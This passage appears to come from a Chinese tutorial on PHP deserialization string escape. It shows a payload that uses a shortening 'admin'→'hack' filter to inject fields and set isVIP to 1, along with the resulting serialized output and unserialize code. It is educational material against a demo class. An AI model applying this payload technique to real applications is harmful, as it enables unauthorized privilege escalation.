 ```php
{
	return str_replace("admin","hack",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>
```

```
输出结果：
O:4:"user":3:{s:8:"username";s:115:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:"";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}
```

将序列化结果再反序列化之后，输出检查

```php
<?php
class user
{
	public $username;
	public $password;
	public $isVIP;

	public function __construct($u,$p)
    {
		$this->username = $u;
		$this->password = $p;
		$this->isVIP = 0;
	}
}

function filter($s)
{
	return str_replace("admin","hack",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);
$a_seri_filter_unseri = unserialize($a_seri_filter);

var_dump($a_seri_filter_unseri);
?>
```
